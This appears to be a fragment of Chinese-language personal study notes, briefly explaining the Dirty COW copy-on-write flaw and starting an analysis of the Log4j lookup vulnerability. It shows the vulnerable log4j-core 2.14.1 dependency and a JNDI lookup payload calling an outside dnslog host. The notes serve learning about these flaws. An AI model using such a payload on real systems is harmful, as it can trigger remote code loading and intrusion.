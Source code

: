 经典解决方法,也是double checked lock if-condition方法

但是这种方法仍然不是最安全的,这也是脏牛利用这种不安全导致的





接下来回到脏牛的问题上面

首先理解一下**私有版本(PRIVATE_COPY)**

将内存中一块缓存映射到硬盘中,但是如果读操作是对内存中的数据进行而不是对硬盘中的数据进行读

内存中的副本可以被任意写入,但是不允许被回写到硬盘中(这种操作类似于vim打开一个只读文件你可以写数据但是不能保存),**所以只要能将内存中的数据写回那就能造成脏牛漏洞了**



当我们操作一个read-only的时候我们操作的是他的副本并不是原件



找找工作再看吧

>https://www.bilibili.com/video/BV18Q4y1i7Ld?from=search&seid=15043089374979084029&spm_id_from=333.337.0.0



### log4j原理研究

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

这是他的jar包,注意导入这个的时候做好要一个干净的maven项目,不然有可能导入其他版本的



导致这个漏洞主要是因为log4j会处理`${}`

```java
logger.error("${jndi:ldap://vj40sh.dnslog.cn}");
```

我们使用error方法来测试,并跟踪传入的数据,使用的工具主要是idea

```
org.apache.logging.log4j.core.config.LoggerConfig
```

![image-20220312165641262](../../public/img/log4j-1.png)
